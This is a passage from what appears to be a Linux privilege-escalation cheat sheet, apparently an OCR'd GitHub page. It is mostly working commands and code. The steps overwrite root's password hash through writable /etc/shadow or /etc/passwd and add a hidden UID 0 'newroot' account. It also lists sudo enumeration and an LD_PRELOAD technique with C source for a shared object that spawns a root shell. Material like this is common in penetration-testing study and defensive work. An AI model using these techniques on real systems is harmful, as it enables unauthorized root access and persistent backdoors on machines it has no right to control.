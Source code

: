 ```bash
ls -l /etc/shadow

python -c 'import crypt;print(crypt.crypt("password", "$6$saltgoeshere"))'
mkpasswd -m sha512crypt -S saltgoeshere password
openssl passwd -6 -salt saltgoeshere password
```

Replace root's password hash.
```bash
root:[password hash]:17298:0:99999:7:::
```

### Writable /etc/passwd
Generate a new password hash.

```bash
ls -l /etc/passwd

python -c 'import crypt;print(crypt.crypt("password", "$6$saltgoeshere"))'
mkpasswd -m sha512crypt -S saltgoeshere password
openssl passwd -6 -salt saltgoeshere password
```

Replace root's 2nd field (x) with the password hash.
```bash
root:x:0:0:root:/root:/bin/bash
```

Alternatively, you can create a new root user by adding a new entry to the end of /etc/passwd.

```bash
newroot:[password hash]:0:0:root:/root:/bin/bash
su - newroot
```

## Sudo
> https://gtfobins.github.io/#+sudo

List commands a user is allowed to run.
```bash
sudo -l
```

Run a command as a specific user.
```bash
sudo -u [username] [command]
```

### LD_PRELOAD
Check if sudo is configured to preserve `LD_PRELOAD` through `env_keep`.
```bash
env_keep+=LD_PRELOAD
```

Compile the following code with `gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/preload.c` to create a shared object.
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
